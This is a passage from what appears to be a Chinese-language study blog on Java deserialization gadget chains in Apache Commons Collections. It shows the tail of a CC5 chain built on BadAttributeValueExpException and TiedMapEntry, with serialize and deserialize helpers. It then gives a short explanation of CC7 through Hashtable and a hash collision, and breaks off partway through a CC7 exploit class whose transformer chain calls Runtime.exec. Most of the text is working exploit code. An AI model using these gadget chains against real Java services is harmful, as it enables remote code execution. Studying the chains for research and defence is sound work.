 ```plain
        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        //设置私有属性val
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);


//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

## CommonsCollections7：

入口点利用了HashTable通过readObject中调用`reconstitutionPut`,然后又调用了equals，然后找到了AbstractMapDecorator类中的equals方法中调用了get方法。

然后在equals中存在一个哈希碰撞，比较罕见，这里就不展开来研究了，可以参考fakesoul师傅写的文章：

[https://xz.aliyun.com/t/12207#toc-10](https://xz.aliyun.com/t/12207#toc-10)

```plain
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class cc7 {
    public static void main(String[] args) throws NoSuchFieldException,
            IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeformers = new Transformer[]{new
                ConstantTransformer(2)};
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
```